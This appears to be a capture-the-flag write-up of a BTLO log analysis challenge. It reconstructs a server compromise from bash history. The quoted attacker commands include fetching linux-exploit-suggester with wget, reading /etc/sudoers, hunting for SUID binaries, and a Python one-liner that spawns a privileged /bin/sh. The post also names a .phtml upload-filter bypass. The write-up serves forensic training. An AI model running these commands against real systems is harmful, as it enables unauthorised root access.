 ```yaml
---
author: pl4int3xt
layout: post
title: Log Analysis - Privilege Escalation
date: '2023-10-06 11:11:46 +0300'
cover: /img/cover_images/14.png
description: "The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?"
categories: [BTLO, CTF-Like]
tags: [Texteditor, Bash History]
---
```


## Log Analysis - Privilege Escalation
A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened? 

## What user (other than ‘root’) is present on the server?

Let's open the files of bash_history

```bash
cd /home
ls
cd /home/daniel/
ls -la
su root
```

## What script did the attacker try to download to the server? 

We can see the script from bash_history
```bash
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
```

## What packet analyzer tool did the attacker try to use?

We can see the packet analyzer from bash_history
```bash
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
```

## What file extension did the attacker use to bypass the file upload filter implemented by the developer?

We can see the file extension from bash_history
```bash
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

## Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load

Based on the bash history we can see the attacker was searching for [SUID](https://gtfobins.github.io/) binaries and he was able to locate /bin/sh which he exploited with python
```bash
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```